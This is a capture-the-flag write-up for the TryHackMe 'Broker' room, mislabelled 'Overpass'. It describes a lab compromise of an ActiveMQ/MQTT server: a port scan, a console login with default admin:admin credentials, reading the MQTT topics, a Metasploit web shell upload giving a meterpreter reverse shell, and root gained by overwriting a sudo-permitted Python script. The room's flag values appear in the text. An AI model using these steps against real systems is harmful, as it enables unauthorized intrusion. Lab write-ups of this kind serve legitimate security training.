


# Overpass
https://tryhackme.com/room/broker

This room involves exploiting a vulnerable MQTT broker to gain access to the server.

## Recon
```
┌──(kali㉿kali)-[~]
└─$ rustscan -a 10.10.63.63
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-09 10:23 EDT
Nmap scan report for 10.10.63.63
Host is up, received echo-reply ttl 61 (0.086s latency).
Scanned at 2025-07-09 10:23:43 EDT for 1s

PORT      STATE SERVICE     REASON
22/tcp    open  ssh         syn-ack ttl 61
1883/tcp  open  mqtt        syn-ack ttl 61
8161/tcp  open  patrol-snmp syn-ack ttl 61
43619/tcp open  unknown     syn-ack ttl 61
```
I scan the server for open ports and two catch my eye: 1883 and 8161. Rustscan tells us that port 1883 is being used by a MQTT broker and that port 8161 is running a web service.



I visit `http://10.10.63.63:8161/` and find out that Apache ActiveMQ is running on this port. This reveals our second flag. There's a login form that I can submit by clicking "Manage ActiveMQ broker". I looked up the default credentials for ActiveMQ (admin:admin) and they end up working.

I can now take a look at the active topics and see that there are quite a few messages on the "secret_chat" topic.



I can use a tool called mosquitto to connect to the broker service and read the messages being sent under the "secret_chat" topic.

> *I had a little bit of difficulty connecting until I realized that the room specified that I need to use MQTT version 3.1 when connecting.*

```
┌──(kali㉿kali)-[~]
└─$ mosquitto_sub -h 10.10.63.63 -p 1883 -t "#" -V "mqttv31" -v
secret_chat Paul: Hey, have you played the videogame 'Hacknet' yet?
secret_chat Max: Yeah, honestly that's the one game that got me into hacking, since I wanted to know how hacking is 'for real', you know? ;)
secret_chat Paul: Sounds awesome, I will totally try it out then ^^
secret_chat Max: Nice! Gotta go now, the boss will kill us if he sees us chatting here at work. This broker is not meant to be used like that lol. See ya!
secret_chat Paul: Hey, have you played the videogame 'Hacknet' yet?
secret_chat Max: Yeah, honestly that's the one game that got me into hacking, since I wanted to know how hacking is 'for real', you know? ;)
secret_chat Paul: Sounds awesome, I will totally try it out then ^^
secret_chat Max: Nice! Gotta go now, the boss will kill us if he sees us chatting here at work. This broker is not meant to be used like that lol. See ya!
```

Now that we have the third flag, we can move on to gaining access to the server. I couldn't find any interesting subdomains, so I figured that I'd look for a vulnerability in ActiveMQ. 

## Logging In
```
┌──(kali㉿kali)-[~]
└─$ searchsploit activemq
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
ActiveMQ < 5.14.0 - Web Shell Upload (Metasploit)              | java/remote/42283.rb
Apache ActiveMQ 5.11.1/5.13.2 - Directory Traversal / Command  | windows/remote/40857.txt
Apache ActiveMQ 5.2/5.3 - Source Code Information Disclosure   | multiple/remote/33868.txt
Apache ActiveMQ 5.3 - 'admin/queueBrowse' Cross-Site Scripting | multiple/remote/33905.txt
Apache ActiveMQ 5.x-5.11.1 - Directory Traversal Shell Upload  | windows/remote/48181.rb
Apache ActiveMQ 6.1.6 - Denial of Service (DOS)                | multiple/remote/52288.py
--------------------------------------------------------------- ---------------------------------
```

Turns out that there's a shell upload exploit that I can use in metasploit.

```
┌──(kali㉿kali)-[~]
└─$ msfconsole

msf6 > search activemq

Matching Modules
================

   #   Name                                                      Disclosure Date  Rank       Check  Description
   -   ----                                                      ---------------  ----       -----  -----------
   0   exploit/multi/http/apache_activemq_upload_jsp             2016-06-01       excellent  No     ActiveMQ web shell upload

msf6 > use 0
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set RHOSTS 10.10.63.63
RHOSTS => 10.10.63.63
msf6 exploit(multi/http/apache_activemq_upload_jsp) > exploit
```
I was able to get a meterpreter session and create a shell from there as the activemq user.

## Flag.txt
```
activemq@activemq:/opt/apache-activemq-5.9.0$ ls
ls
LICENSE  README.txt              bin      conf  flag.txt  start.sh      tmp
NOTICE   activemq-all-5.9.0.jar  chat.py  data  lib       subscribe.py  webapps
activemq@activemq:/opt/apache-activemq-5.9.0$ cat flag.txt
cat flag.txt
THM{you_got_a_m3ss4ge}
```
The flag.txt was very easy to get since it's just right there in the home directory.

## Root.txt
I decide to run `sudo -l` to see if I can run any commands as root and find that I can run subscribe.py as root.

```
activemq@activemq:/opt/apache-activemq-5.9.0$ sudo -l
sudo -l
Matching Defaults entries for activemq on activemq:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User activemq may run the following commands on activemq:
    (root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```

This means I can just echo some code to spawn a shell to the python file and run it as root.

```
activemq@activemq:/opt/apache-activemq-5.9.0$ echo 'import pty;pty.spawn("/bin/bash")' > subscribe.py
activemq@activemq:/opt/apache-activemq-5.9.0$ sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
root@activemq:/opt/apache-activemq-5.9.0# whoami
root
root@activemq:/opt/apache-activemq-5.9.0# cd /root; ls
root.txt
root@activemq:~# cat root.txt
THM{br34k_br0k3_br0k3r}
```
There we go, that's all the flags for this room.